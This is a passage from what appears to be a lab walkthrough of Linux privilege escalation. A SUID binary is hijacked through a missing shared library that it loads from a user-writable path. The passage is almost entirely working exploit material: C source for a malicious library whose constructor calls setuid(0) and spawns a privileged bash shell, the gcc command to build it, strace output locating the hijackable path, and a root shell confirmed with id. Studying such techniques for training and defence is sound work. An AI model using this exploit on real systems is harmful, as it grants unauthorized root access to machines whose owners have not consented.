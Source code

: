`/home/user/.config/libcalc.so` can't find that  library.

[+] exploit steps<br>
- create dir  .config and create `libcalc.so`  library
*`libcalc.so`*
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}

```


- compile `libcalc.so` 

```bash

gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```
- run binary


```bash
user@debian:~/tools/suid$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = 3


user@debian:~/tools/suid$ /usr/local/bin/suid-so
Calculating something, please wait...
bash-4.1#
bash-4.1# id
uid=0(root) gid=1000(user) egid=50(staff) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
bash-4.1#


```
